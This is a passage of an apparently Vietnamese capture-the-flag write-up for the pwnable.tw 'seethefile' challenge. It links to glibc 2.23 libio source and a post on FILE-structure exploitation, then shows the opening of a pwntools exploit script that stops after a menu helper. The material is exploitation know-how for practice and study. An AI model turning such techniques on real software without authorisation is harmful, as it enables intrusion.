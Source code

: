 - ta có thể xem source code libc ở đây : https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/libio.h#L241


xem bài viết này để hiểu hơn : https://nightrainy.github.io/2019/08/07/play-withe-file-structure-%E6%90%AC%E8%BF%90/#fclose-workflow

![image](/assets/images/Pwnable.tw/27.png)

script
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./seethefile_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe

p = process()

def open_(data):
    p.sendlineafter(b'choice :',b'1')
    p.sendlineafter(b'see :',data)
```